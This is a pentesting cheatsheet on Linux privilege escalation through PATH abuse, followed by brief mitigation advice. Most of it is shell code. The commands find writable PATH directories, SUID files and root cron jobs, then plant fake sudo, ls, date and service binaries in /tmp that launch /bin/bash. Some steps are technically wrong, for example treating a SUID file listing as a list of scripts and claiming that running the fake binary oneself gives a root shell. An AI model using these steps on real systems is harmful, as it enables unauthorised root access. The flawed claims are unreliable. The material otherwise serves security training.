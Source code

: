 ```yaml
---
title: Linux Path Abuse
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - privilege
  - escalation
  - linux
---
```

# Path abuse Cheatsheet

## PATH Abuse Privilege Escalation
This cheat sheet provides actionable steps to escalate privileges using PATH abuse.  [PATH](http://www.linfo.org/path_env_var.html) is an environment variable that specifies the set of directories where an executable can be located.

```shell-session
echo $PATH  # Display the current PATH variable
```

### Modifying PATH for Command Hijacking

```shell-session
# Adding the current directory (.) to PATH
PATH=.:${PATH}
export PATH
echo $PATH  # Confirm the updated PATH
```

By adding `.` to `PATH`, any command executed without an absolute path will first search the current directory. If an attacker can place a malicious script in a writable directory that appears first in the `PATH`, they can hijack legitimate commands and escalate privileges.

---

## Exploitation Techniques

### 1. Overwriting Commonly Used Commands

```shell-session
# Check if a writable directory exists in PATH
find ${PATH//:/ } -writable 2>/dev/null

# Create a fake sudo command
cat <<EOF > /tmp/sudo
#!/bin/bash
/bin/bash
EOF
chmod +x /tmp/sudo
export PATH=/tmp:$PATH

# If the user runs sudo, they will execute our malicious script
sudo
```

### 2. Hijacking Root-Executed Scripts

```shell-session
# Find scripts executed by root that do not use absolute paths
find / -type f -user root -perm -4000 2>/dev/null | grep -vE "(/bin/|/sbin/|/usr/bin/|/usr/sbin/)"

# If a script calls an executable without an absolute path, we can replace it with a malicious version
cat <<EOF > /tmp/ls
#!/bin/bash
/bin/bash
EOF
chmod +x /tmp/ls
export PATH=/tmp:$PATH

# If a root-executed script runs `ls`, it will launch a root shell
ls
```

### 3. Finding Sudo Vulnerabilities

```shell-session
# Check if a user can run commands with sudo without specifying the full path
sudo -l

# If the output contains (ALL) NOPASSWD and does not use absolute paths, create a malicious version of the allowed command
cat <<EOF > /tmp/vulnerable_command
#!/bin/bash
/bin/bash
EOF
chmod +x /tmp/vulnerable_command
export PATH=/tmp:$PATH

# Run the allowed command via sudo
sudo vulnerable_command
```

### 4. Abusing System Services

```shell-session
# Check for system services that execute user-controlled scripts
find /etc/systemd/system /lib/systemd/system -type f -writable 2>/dev/null

# If a writable service executes a script without an absolute path, modify it
cat <<EOF > /tmp/system_script
#!/bin/bash
/bin/bash
EOF
chmod +x /tmp/system_script
export PATH=/tmp:$PATH

# Restart the service and gain a shell
systemctl restart vulnerable_service
```

### 5. Exploiting Cron Jobs

```shell-session
# Find cron jobs owned by root
cat /etc/crontab
ls -la /etc/cron.* /var/spool/cron/crontabs

# If a script runs without an absolute path, replace the executable
cat <<EOF > /tmp/date
#!/bin/bash
/bin/bash
EOF
chmod +x /tmp/date
export PATH=/tmp:$PATH

# Wait for the cron job to execute
```

---

## Mitigation

- Avoid adding `.` to the `PATH` variable
- Always use absolute paths in scripts executed with elevated privileges
- Restrict writable permissions on directories included in `PATH`
- Use `secure_path` in `sudoers` to enforce absolute paths

```shell-session
Defaults secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```

